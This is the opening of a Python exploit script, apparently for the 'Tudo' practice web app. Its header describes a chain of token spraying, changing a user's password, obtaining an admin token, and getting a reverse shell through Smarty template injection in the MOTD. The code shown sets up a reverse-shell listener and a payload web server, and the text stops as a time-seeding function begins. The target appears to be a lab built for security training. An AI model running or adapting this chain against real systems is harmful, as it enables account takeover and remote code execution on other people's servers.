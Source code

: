 ```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token - Get Reverse Shell from MOTD Smarty PHP Template
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse
  
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
```